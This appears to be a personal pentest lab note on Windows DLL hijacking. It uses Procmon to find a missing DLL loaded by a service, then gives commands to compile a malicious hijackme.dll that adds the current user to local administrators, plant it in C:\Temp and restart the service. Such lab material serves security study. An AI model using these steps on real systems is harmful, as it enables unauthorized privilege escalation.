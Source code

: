 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

**Detection**

try http://github.com/sensepost/rattler

---
Show DLL's tied to specific exe.
```command prompt - target
tasklist /m | findstr "nvcontainer.exe"
```


Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  

In procmon, select ‘Result’.  

In the input box on the same line type: 

```procmon - windows
NAME NOT FOUND  
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’.


In procmon, select ‘Path’.  
In procmon, select ‘ends with'.  

In the input box on the same line type: 

```procmon - windows
.dll 
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’, and lastly on ‘OK’.  

Open command prompt and type: 

```command prompt - target
sc start dllsvc  
```

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

We have 2 results show up, 1 on "Program Files" and 1 in Temp.

![[Pasted image 20220207150415.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_dll.c` to the Kali VM.

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file hijackme.dll, to the Windows target.

Place hijackme.dll in ‘C:\Temp’.  

Open command prompt and type: 

```command prompt - windows
sc stop dllsvc & sc start dllsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```
